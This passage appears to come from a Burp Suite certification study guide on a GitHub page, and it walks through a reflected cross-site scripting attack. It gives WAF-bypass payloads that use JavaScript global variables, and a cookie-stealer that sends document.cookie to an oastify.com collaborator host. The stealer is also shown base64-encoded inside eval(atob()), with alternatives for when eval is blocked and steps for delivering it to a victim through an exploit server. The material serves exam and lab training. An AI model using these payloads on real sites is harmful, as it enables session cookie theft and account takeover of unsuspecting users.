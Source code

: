 >WAF is preventing dangerous search filters and tags, then we bypass WAF filters using JavaScript global variables.  

```JavaScript
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```  

[secjuice: Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/)  

>Below is the main [cookie stealer payload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/5cbfeb2a11577ad62a31f72635a000bf5dcce293/payloads/CookieStealer-Payloads.md) before BASE 64 encoding it.  

```JavaScript
fetch(`https://OASTIFY.COM/?jsonc=` + window["document"]["cookie"])
```  

>Next is encode payload using [Base64 encoded](https://www.base64encode.org/) value of the above cookie stealer payload.  

```
ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==
```  

>Test payload on our own session cookie in Search function.  

```JavaScript
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Unpacking above payload assembly stages:  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 format strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  
>This image shows Burp Collaborator receiving the my cookie value as proof of concept before setting up payload to `Deliver exploit to victim`.  

![Burp collaborator receiving request with base64 cookie value from our POC.](images/xss2.png)  

>[URL Encode](https://www.urlencoder.org/) all characters in this payload and use as the value of the `/?SearchTerm=` parameter.  

```html
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Hosting the `IFRAME` on exploit server, give a **error** message refused to connect to target. Instead host the payload on exploit server between `<script>` tags.  
